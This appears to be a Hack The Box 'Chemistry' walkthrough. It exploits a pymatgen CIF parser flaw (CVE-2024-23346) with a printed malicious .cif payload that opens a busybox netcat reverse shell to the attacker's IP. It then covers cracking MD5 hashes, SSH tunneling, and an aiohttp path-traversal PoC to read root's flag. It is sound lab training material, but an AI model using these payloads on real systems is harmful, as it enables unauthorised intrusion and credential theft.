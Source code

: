 <br><br>
**Platform : Hack The Box**

**Box : Chemistry**

**Difficulty : Easy**

**OS : Linux**

<br><br>

Our inital nmap scans reveals two ports open, 22 and 5000.
<br><br>
### `$ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt`

`Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org/) ) at 2024-10-22 23:37 CEST`  
`Nmap scan report for chemistry (10.10.11.38)`  
`Host is up (0.51s latency).`

`PORT STATE SERVICE VERSION`  
`22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)` 
`5000/tcp open upnp?` 
`| fingerprint-strings:`  
`| GetRequest:`  
`| HTTP/1.1 200 OK`  
`| Server: Werkzeug/3.0.3 Python/3.9.5`  
`| Date: Tue, 22 Oct 2024 21:37:54 GMT`  
`| Content-Type: text/html; charset=utf-8`  
`| Content-Length: 719`  
`| Vary: Cookie`  
`| Connection: close`  
`|`
`| class="title">Chemistry CIF Analyzer`  
`|`
`Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.`

`<---SNIP--->`


<br><br>
The application provided at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.
<br><br>
![Pasted image 20241023002915-1](https://github.com/user-attachments/assets/b84120fa-fbe7-4534-844a-105686aa94f8)

<br><br>
Surfing the web we find the recent *CVE-2024-23346* 

https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure serializazion*.

All we need to do is craft a malicious .cif file, and then inject the command we want to execute in it. We have a template of the file's structure in the link above:

<br><br>

> data_Example
>
> audit_creation_date            2018-06-08
> 
> _audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
> 
> loop
> 
> parent_propagation_vector.id
> 
> _parent_propagation_vector.kxkykz
> 
> k1 [0 0 0]
> 
> 
> _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ()._class_._mro_[1]._getattribute_ ( *[().__class__.__mro__[1]]+["_sub" + "classes_"]) () if d._name_ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.15.56 1337 -e sh");0,0,0'
> 
> 
> 
> _space_group_magn.number_BNS  62.448
> 
> _space_group_magn.name_BNS  "P  n'  m  a'  "
> 
> 

<br><br>
Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, we find the right one to be:
<br><br>
> *busybox nc 10.10.15.56 1337 -e sh*

<br><br>

Which allows us to gain a reverse shell:

<br><br>

![alt text](<Pasted image 20241023004209-1.png>)

<br><br>

Checking the app's directory, we're able to retrieve the .db database that has stored all the *user's md5 hashes*, encoded with the following algorythm, as we can read in the *app.py* file.
<br><br>

>    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br><br>

![alt text](<Pasted image 20241023010333-1.png>)

<br><br>

![alt text](<Pasted image 20241023010740-1.png>)

<br><br>

A rapid visit to https://crackstation.net reveals us the cleartext password of rosa's user:

<br><br>

![alt text](<Pasted image 20241102202421.png>)

<br><br>

This is our initial foothold on the machine. We have credentials to access ssh:

<br><br>

> *rosa:<ROSA'S_PASSWORD>*

<br><br>

Running linpeas.sh on the machine, we find out a *service listening on port 8080* of localhost

<br><br>

![alt text](<Pasted image 20241023012150-1.png>)

<br><br>

To enumerate this service, we perform an *SSH tunneling* to our host, using the following command:

<br><br>

`ssh -L 8080:localhost:8080 rosa@10.10.11.38`

<br><br>

This forwards *our localhost's* port 8080 to port 8080 running on 127.0.0.1 (localhost) remote machine.
A rapid nmap scan shows us that Chemistry is running *aiohttp 3.9.1*

<br><br>

![alt text](<Pasted image 20241102200205.png>) 

<br><br>

and this is the first result if i search it on google:

<br><br>

https://github.com/z3rObyte/CVE-2024-23334-PoC

<br><br>

It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. We're going to modify a bit the script to make it run on *our* localhost's port 8080 and try to read *root's flag*. 

<br><br>

![alt text](<Pasted image 20241102200634.png>)

<br><br>

And...

<br><br>

![alt text](<Pasted image 20241102201153.png>)

<br><br>

Success! We have code execution as root user!

